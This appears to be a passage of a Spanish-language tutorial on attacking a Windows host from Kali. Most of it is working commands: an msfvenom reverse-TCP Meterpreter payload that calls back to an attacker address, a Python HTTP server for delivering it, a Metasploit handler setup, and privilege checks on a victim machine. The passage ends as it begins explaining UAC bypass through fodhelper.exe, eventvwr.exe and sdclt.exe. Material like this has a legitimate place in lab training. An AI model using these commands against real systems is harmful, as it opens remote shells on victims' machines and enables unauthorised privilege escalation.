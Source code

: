 #### 🛠️ Paso 1: Obtener sesión básica en Windows (sin admin)

Desde Kali, crea un payload con Meterpreter:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.2 LPORT=4444 -f exe -o payload.exe
```

Sirve el archivo:

```bash
python3 -m http.server 80
```

Desde Windows, descarga y ejecuta `payload.exe`.
En Kali, configura el **handler**:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.2
set LPORT 4444
run
```

✅ Ya tienes una sesión `meterpreter`.

---

#### 🧪 Paso 2: Verifica si puedes escalar

Dentro de Meterpreter:

```bash
getuid
```

Si ves algo como:

```
Server username: VICTIMA-PC\Usuario
```

Y **no** tienes SYSTEM ni Administrador, puedes intentar UAC Bypass.

Comprueba que el usuario actual esté en el grupo administradores:

```bash
shell
net localgroup administrators
```

---

### 🧠 ¿Cómo funciona el UAC Bypass?

Existen muchas técnicas. Las más comunes explotan aplicaciones legítimas del sistema como `fodhelper.exe`, `eventvwr.exe`, `sdclt.exe`, etc., que:
